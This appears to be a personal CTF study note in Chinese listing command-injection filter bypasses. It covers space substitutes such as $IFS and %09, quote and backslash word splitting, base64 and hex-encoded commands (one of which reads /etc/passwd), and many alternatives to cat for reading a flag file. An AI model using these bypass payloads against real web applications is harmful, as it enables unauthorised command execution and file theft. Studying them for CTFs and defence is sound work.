 tags:: CTFWEB/RCE

- 空格
	- `$IFS // 注意后面不能接上字母`
	- `${IFS}`
	- `$IFS$1 //1改成其他数字貌似都行`
	- `cat<flag.php`
	- `<>`
	- `{cat,flag.php}`
	- tab
	- `%20`
	- `%09&&`
- 反斜杠
	- `l\s`
	- 也可以这样：`tac<f\ile`
- 斜杠
	- `$(cd ..&&cd ..&cd ..&&cd ..&& pwd)`
- 单引号
	- `'l's`
	- 也可以这样：`tac<f'i'le`
- 双引号
	- `"l"s`
- 命令拼接，内联执行
	- `a='l';b=s;$a$b`
- base64 编码
	- `echo d2hvYW1p | base64 -d`
- hex
	- ``cat `xxd -r -p <<< 2f6574632f706173737764` ``
- `ls`:
	- `dir`
- `cat`或文件名被 waf
  id:: 42eb4318-43ea-4079-963d-61943df49a8c
	- `curl file:///flag`
	- `head /flag`
	- `tail /flag`
	- `tac /flag`
	- `tac /fla?`
	- `tac /fla"g"`
	- `tac /fla'g'`
	- `awk '{print $0}' /flag`
	- `sed q100 /flag`
		- 读取前 99 行
	- `nl /fl?g`
	- `env cat /flag`
	- `uniq`
	- `strings`
	- `cut`
	- `od`
	- `less`
	- `more`
	- `sort`
	- `hexdump`
	- `rev`